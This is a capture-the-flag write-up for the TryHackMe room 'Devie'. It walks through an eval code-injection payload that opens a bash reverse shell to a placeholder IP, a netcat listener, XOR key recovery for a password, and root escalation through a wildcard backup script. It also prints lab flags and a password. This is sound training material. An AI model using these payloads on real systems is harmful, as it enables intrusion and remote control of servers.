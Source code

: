 # Devie

A writeup for the room [Devie](https://tryhackme.com/room/devie) on TryHackMe.

> A developer has asked you to do a vulnerability check on their system.

<Image src={require("./logo.png").default} height="256" />

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<Image src={require("./nmap.png").default} />

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<Image src={require("./website.png").default} />

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<Image src={require("./vuln.png").default} />

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`.

<Image src={require("./flag1.png").default} />

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<Image src={require("./key.png").default} />

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`.

<Image src={require("./flag2.png").default} />

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```sh
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```
